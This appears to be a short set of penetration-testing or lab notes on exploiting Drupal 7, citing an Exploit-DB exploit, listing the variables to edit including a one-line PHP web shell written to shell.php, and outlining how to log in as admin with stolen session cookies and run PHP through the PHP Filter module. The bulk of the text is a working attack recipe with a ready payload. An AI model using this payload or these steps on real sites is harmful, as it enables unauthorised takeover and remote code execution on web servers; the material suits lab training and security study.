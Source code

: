 # Enum-Web-App-Drupal-Notes

## Exploit Drupal 7

```
https://www.exploit-db.com/exploits/41564
```

- syntax errors on line 16 and 71

## Modify these variables:

```
$url='10.10.10.100';
$endpoint_path='/rest';
$endpoint='rest_endpoint';
$file=[
  'filename'=>'shell.php',
  'data'=>'<?php echo(system($_GET["cmd"])); ?>'
];
```
## Summary

Running the exploit will create the specified PHP file as well as generate user.json and
session.json locally. The session file contains valid cookie data for the Drupal admin user, and it
is possible to directly paste PHP code into a new Drupal module. Logging in as the admin user is
fairly simple and can be achieved by creating a new cookie.

PHP execution can be achieved by enabling the PHP Filter module on the Modules page.
Afterwards, simply browse to Add content then to Article. Pasting PHP into the article body,
changing the Text format to PHP code and then clicking on Preview allows for easy code
execution.

